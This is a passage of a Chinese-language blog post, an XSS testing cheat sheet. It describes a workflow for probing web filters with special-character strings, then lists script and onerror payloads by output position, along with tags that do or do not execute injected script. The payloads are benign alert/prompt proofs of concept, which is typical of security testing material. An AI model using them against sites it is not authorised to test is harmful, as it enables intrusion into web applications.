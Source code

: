 ```yaml
---
title:  XSS测试备忘录
subtitle: XSS
time: 2017.10.10 10:00:00
layout: post
catalog: true
tags:
- Web
- XSS

excerpt: XSS测试备忘录，总结版。

---
```


# XSS备忘录

## 0x00 渗透流程

1. 观察输入输出点，测试waf过滤情况

   ```javascript
   简单: "'<script javascript onload src><a href></a>#$%^

   全面: '";!-=#$%^&{()}<script javascript data onload href src img input><a href></a>alert(String.fromCharCode(88,83,83));prompt(1);confirm(1)</script>
   ```

   观察输入输出情况，一些特殊字符是否被编码、标签是否被过滤、输出点在标签之间或标签之内

2. 依据输出位置进行XSS

   - 标签之间：

     ```javascript
     模型： <div>[xss]</div>
     payload： <script>alert(1)</script>或者<img src=1 onerror=alert(1)>

     这些标签有：
     <a> <p> <img> <body> <button> <var> <div> <object> <input> <select> <keygen> <frameset>  <embed> <svg> <video> <audio>
       
     自带HtmlEncode（转义）功能的标签(RCDATA)，这是插入的javascript不会被执行，除非我们闭合掉它们。
     <textarea></textarea>
     <title></title>
     <iframe></iframe>
     <noscript></noscript>
     <noframes></noframes>
     <xmp></xmp>
     <plaintext></plaintext>
     其他：<math></math>也不行 
     ```

